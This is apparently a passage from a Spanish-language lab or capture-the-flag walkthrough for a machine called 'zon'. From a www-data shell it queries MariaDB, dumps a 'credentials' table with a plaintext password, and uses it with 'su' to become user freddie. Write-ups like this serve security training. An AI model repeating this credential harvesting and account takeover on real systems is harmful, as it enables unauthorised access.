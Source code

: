 ```sql
MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| admin              |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.015 sec)

MariaDB [(none)]>
```

Hay una base de datos llamada **`admin`**, veamos sus tablas con el comando `SHOW TABLES`, aunque antes deberemos ejecutar el comando `USE amdin` para poder acceder a ella:

```sql
MariaDB [(none)]> USE admin;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [admin]> SHOW TABLES;
+-----------------+
| Tables_in_admin |
+-----------------+
| credentials     |
+-----------------+
1 row in set (0.000 sec)

MariaDB [admin]>
```

Bien, como veis hay una única tabla llamada **`Credentials`**, vamos a ver el contenido de esta tabla con el comando `SELECT * FROM credentials`:

```sql
MariaDB [admin]> SELECT * FROM credentials;
+----------+-------------------------+
| username | password                |
+----------+-------------------------+
| Freddie  | LDVK@dYiEa2I1lnjrEeoMif |
+----------+-------------------------+
1 row in set (0.001 sec)

MariaDB [admin]>
```

¡Qué bien, tenemos la contraseña de **`Freddie`**! Probemos a ver si funciona:

```shell
www-data@zon:/var/www/html$ su freddie
Password: LDVK@dYiEa2I1lnjrEeoMif

╭─freddie@zon /var/www/html 
╰─$
```
